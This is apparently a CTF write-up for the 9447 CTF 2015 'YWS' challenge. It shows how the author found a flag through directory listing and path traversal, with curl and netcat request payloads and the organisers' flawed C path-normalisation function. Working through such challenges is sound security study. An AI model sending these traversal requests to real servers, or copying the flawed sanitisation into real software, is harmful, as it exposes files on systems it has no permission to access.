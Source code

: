 Title: CTF writeup - 9447 CTF 2015: YWS
Category: Infosec
Tags: ctf, directory traversal
Summary: Directory traversal and directory listing


## Challenge
> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?

> The web page is at http://yws-fsiqc922.9447.plumbing

> Hint! Where does the website not want you to go?

## Writeup
The first thing to try is robots.txt.
```text
$ curl http://yws-fsiqc922.9447.plumbing/robots.txt
User-agnet: *
Disallow: /
Disallow: /..
Disallow: .
Disallow: ..
Disallow: /work
Disallow: /imegas/
Allow: /sounds/pljesus.wav
```

Seems the author had dyslexia, but navigating to the `/images` folder leads to a [directory listing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing).
```html
$ curl http://yws-fsiqc922.9447.plumbing/images
<html>
<head>
<title>Directory listing for /images</title>
</head>
<body>
<h2>Directory listing for /images</h2>
<hr>
<ul>
<li><a href="/images/.">.</a>
<li><a href="/images/aangel2.gif">aangel2.gif</a>
<li><a href="/images/dj2.gif">dj2.gif</a>
<li><a href="/images/..">..</a>
<li><a href="/images/rand_tile1.jpg">rand_tile1.jpg</a>
<li><a href="/images/djangopowered126x54.gif">djangopowered126x54.gif</a>
<li><a href="/images/php.jpg">php.jpg</a>
<li><a href="/images/dj1.gif">dj1.gif</a>
<li><a href="/images/secret_images">secret_images</a>
<li><a href="/images/jboogie.gif">jboogie.gif</a>
<li><a href="/images/dj3.gif">dj3.gif</a>
<li><a href="/images/aangel1.gif">aangel1.gif</a>
<li><a href="/images/remail.gif">remail.gif</a>
</ul>
<hr>
</body>
</html>
```

You can also list the web app's root by adding 2 slashes.
```html
$ curl http://yws-fsiqc922.9447.plumbing//
<html>
<head>
<title>Directory listing for /</title>
</head>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="//.">.</a>
<li><a href="//images">images</a>
<li><a href="//sounds">sounds</a>
<li><a href="//400.html">400.html</a>
<li><a href="//..">..</a>
<li><a href="//robots.txt">robots.txt</a>
<li><a href="//index.html">index.html</a>
</ul>
<hr>
</body>
</html>
```

Following the hint, we have to do a [directory traversal attack](https://www.owasp.org/index.php/Path_Traversal) and, since directory listing is enabled on the server, we can simply do it on paths instead of specific files.
Trying to list `/..` with curl didn't work and simply showed the website's main page.
```text
$ curl 'http://yws-fsiqc922.9447.plumbing/..'
```
Adding multiple `../` didn't work either.

It finally worked by adding the directory traversal as a query param.
```html
$ curl 'http://yws-fsiqc922.9447.plumbing/?../..'
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
<li><a href="/../gws">gws</a>
<li><a href="/../files">files</a>
</ul>
<hr>
</body>
</html>
```

Flag: `9447{D1rect0ries_ARe_h4rd}`

## curl gotcha
After the CTF, I followed discussions on IRC and learned that curl will "fix" the path for you before sending the query.
```
:::text hl_lines="1 6"

$ curl -v http://127.0.0.1:8080/../../..
* Rebuilt URL to: http://127.0.0.1:8080/
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: 127.0.0.1:8080
> Accept: */*
```

Most people seem to have used BurpSuite or a plain connection with netcat to get the flag:
```bash
printf "GET /.. HTTP/1.1\r\n\r\n" | nc yws-fsiqc922.9447.plumbing 80
```

## Why adding it as a query param worked
I didn't understand why adding the directory traversal after a `?` worked, since the vulnerability was in the path, not a query param.

I looked at the source code that the organizers uploaded after the CTF, and it turns out that the `extractUrl` function will strip extra levels of `../`.
It only keeps the last one, so it strips the `?` at the same time: `?../..` becomes `/..`.
Here is the function from the source code:
```c
int extractURL(char *urlS, int urlSize, char *fileN, int fileNMaxSize) {
    // Verify it starts with '/'.
    if (urlSize < 1 || urlS[0] != '/') return -1;
    int curS = 1;
    fileN[0] = '/';
    fileN[1] = 0;
    int i;
    for (i = 1; i < urlSize; i++) {
        if (curS == fileNMaxSize) {
            return -1;
        }
        fileN[curS++] = urlS[i];
        fileN[curS] = 0;
        if (strcmp(&fileN[curS - 3], "../") == 0) {
            curS -= 4;
            while (fileN[--curS] != '/');
            curS++;
        }
        if (strcmp(&fileN[curS - 2], "./") == 0) {
            curS -= 2;
        }
    }
    if (strcmp(fileN, "/") == 0) {
        strcpy(fileN, "/index.html");
    } else if (fileN[curS - 1] == '/') {
        fileN[curS - 1] = 0;
    }
    return 0;
}
```
